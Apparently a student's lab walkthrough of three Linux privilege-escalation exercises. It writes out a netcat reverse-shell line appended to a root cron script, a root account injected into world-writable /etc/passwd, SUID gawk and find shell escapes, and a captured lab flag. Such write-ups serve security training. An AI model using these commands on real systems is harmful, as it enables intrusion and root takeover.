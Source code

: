 
# 18.3.5.2
On the target VM #1, use an appropriate privilege escalation technique to gain access to root and read the flag.Scheduling is all that matters.  
  
  
No cron jobs listed.  
  
Looked to see what services are running:
```bash
└─$ ps -aux  
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
root           1  0.0  0.0   2416   576 ?        Ss   18:58   0:00 /bin/sh -c chmod 400 /root/flag.txt && chown root /root/flag.txt && /usr/sbin/sshd   && cron   && tail -f /var/log/cron.log
```

Tried finding the filename for that command... could only find name of the process:
```bash
└─$ ps -p 1 -o comm=  
	sh
```

Tried to find a .sh file which _could_ fit this purpose:
```bash
find / -user root -perm /222 -name *.sh 2>/dev/null  
/var/archives/archive.sh  
...  
  
└─$ cat /var/archives/archive.sh  
#!/bin/bash  
  
TIMESTAMP=$(date + "%T")  
echo "$TIMESTAMP running the archiver"  
#cp -rf /home/kali /var/backups/kali  
cp -rf /home/student/ /var/backups/student/
```

Looked extremely similar to the class mats, so figured why not.  
Added one-liner for a reverse shell:
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> /var/archives/archive.sh
```
	Which worked.  woot



# 18.3.5.3
On the target VM #2, use another appropriate privilege escalation technique to gain access to root and read the flag. Take a closer look at file permissions.  
  
So damn easy
```bash
┌──(student㉿982662cf759a)-[~]  
└─$ ls -lah /etc/passwd  
-rw-rw-rw- 1 root root 1.4K Jan  9 19:33 /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ openssl passwd pwnd  
nRpOSeBTiWBf6  
┌──(student㉿982662cf759a)-[~]  
└─$ echo "root2:nRpOSeBTiWBf6:0:0:root:/root:/bin/bash" >> /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ su root2  
Password:   
┌──(root💀982662cf759a)-[/home/student]
```



# 18.3.5.4
Again, use an appropriate privilege escalation technique to gain access to root and read the flag on the target VM #3.Binary flags and custom shell are what to look for.  
  
Also so damn easy..... like, I literally laughed.  
  
  
Searched for binaries that had SUID or GUID bits set:
```bash
student@99df13b19ef1:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000  
/bin/umount  
/bin/su  
/bin/mount  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/find  
/usr/bin/chfn  
/usr/bin/gawk  
/usr/bin/vim.basic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
find: unknown predicate `-o-'
```

Took a chance on gawk, though I think any one would've likely worked.  
  
Used [https://gtfobins.github.io/](https://gtfobins.github.io/) and searched for **gawk**. Used shell cmd vuln:
```bash
student@99df13b19ef1:~$ gawk 'BEGIN {system("/bin/sh")}'  
# id  
uid=1000(student) gid=1000(student) euid=0(root) groups=1000(student)  
# cat /root/flag.txt  
Great job! You found me.  
Here is your flag:  
  
OS{e63003c582419ac5916f6def043fb033}
```
	*Notice the EUID

(Also works for [**awk**](OS%20Commands.md#awk))

[**find**](OS%20Commands.md#find) also works:
```bash
find . -exec /bin/sh \; -quit
```